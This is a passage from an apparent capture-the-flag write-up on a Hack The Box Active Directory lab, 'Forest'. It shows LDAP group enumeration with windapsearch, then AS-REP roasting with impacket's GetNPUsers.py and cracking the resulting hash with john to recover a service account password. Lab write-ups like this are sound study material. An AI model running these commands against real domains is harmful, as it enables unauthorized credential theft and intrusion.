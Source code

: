#### Groups

```sh
windapsearch -d htb.local --dc 10.10.10.161 -m groups | grep cn | awk -F\: '{print $2}'  
```

```
--- snip ---
Key Admins
Enterprise Key Admins
Organization Management
Recipient Management
UM Management
Help Desk
Discovery Management
Records Management
Public Folder Management
Server Management
View-Only Organization Management
Delegated Setup
Security Reader
Hygiene Management
Security Administrator
Compliance Management
Exchange Servers
Exchange Trusted Subsystem
Managed Availability Servers
Exchange Windows Permissions
ExchangeLegacyInterop
Exchange Install Domain Servers
test
```

We can go on and on with enumeration but you get the point. From the user accounts list and computers we can see presence of an
Exchange server in the domain, keep this in mind it will be important later.

At this point we don't yet have any actionable information that could help us get a foothold.

## AS-REP Roasting

This attack has been well covered on other posts online, I'll list ones that I like as references.

We'll use GetNPUsers script from impacket to perform the attack. This script also makes ldap queries to identify users vulnerable to
the attack.

```sh
GetNPUsers.py -request -dc-ip 10.10.10.161 htb.local/
```

{{< image src="/img/forest/forest2.png" alt="" position="center" style="border-radius: 8px;" >}}

Using the output, I was able to crack the hash with john and get the user's password.

```sh
john --wordlist=/usr/share/wordlists/rockyou.txt svc-alfresco.txt
```
